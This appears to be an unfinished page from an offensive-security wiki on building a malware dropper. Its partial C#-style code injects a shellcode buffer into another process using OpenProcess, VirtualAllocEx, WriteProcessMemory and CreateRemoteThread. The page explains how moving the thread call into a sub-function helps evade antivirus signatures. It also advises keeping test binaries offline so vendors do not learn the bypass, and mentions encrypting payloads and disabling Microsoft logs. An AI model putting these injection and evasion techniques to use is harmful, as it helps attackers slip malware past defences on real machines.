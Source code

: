 # 🛠️ Dropper

{% hint style="danger" %}
**This is a work-in-progress**. It's indicated with the 🛠️ emoji in the page name or in the category name. Wanna help? Please reach out to me: [@\_nwodtuhs](https://twitter.com/\_nwodtuhs)
{% endhint %}

As for the loader, it is also possible to make a simple one, but the more complex it is, the more likely it is that the anti-virus will not see it

Knowing that an anti-virus compares the signature of our program and the signature of the functions with those of the malware, it is up to the attacker to use his imagination to disguise his program.

In the example below, the anti-virus will raise an alert:

```cpp
static void Main(string[] args)
{
            byte[] buf = new byte[xxx]{ 0x27, 0x3B, 0x38, 0x7D, 0xF4, 0x44 }
            IntPtr MyTests = OpenProcess(PROCESS_ALL_ACCESS, false, processId);
            IntPtr addr = VirtualAllocEx(MyTests, IntPtr.Zero, (uint)buf.Length, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
            WriteProcessMemory(MyTests,xxxxx);
            IntPtr hThread = CreateRemoteThread(MyTests, xxxxxx);
}
```

But, if a sub function is added to create a thread as follow:

```cpp
static void CRT()
{
            IntPtr hThread = CreateRemoteThread(MyTests, xxxxxx);
}

static void Main(string[] args)
{
            byte[] buf = new byte[xxx]{ 0x27, 0x3B, 0x38, 0x7D, 0xF4, 0x44 }
            IntPtr MyTests = OpenProcess(PROCESS_ALL_ACCESS, false, processId);
            IntPtr addr = VirtualAllocEx(MyTests, IntPtr.Zero, (uint)buf.Length, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
            WriteProcessMemory(MyTests,xxxxx);
            CRT()
}
```

By using the previous source code the anti-virus will have more difficulty to understand what is happening. The Russian doll technique can be a good trick to hide a malicious function.

{% hint style="warning" %}
The fact of compiling several times will not give us a new signature, only the modification of the code has an impact
{% endhint %}

{% hint style="warning" %}
Once the binary is ready to be executed, access to the internet should be cut in the test environment in order not to send the signature of the bypass to Microsoft or to the editor.
{% endhint %}

To optimize the probability to bypass the protections we will have to combine several techniques, for example encrypt the active load, de-activate Microsoft logs or choose a special way to inject the virus (cf [process injection](process-injection.md)).&#x20;
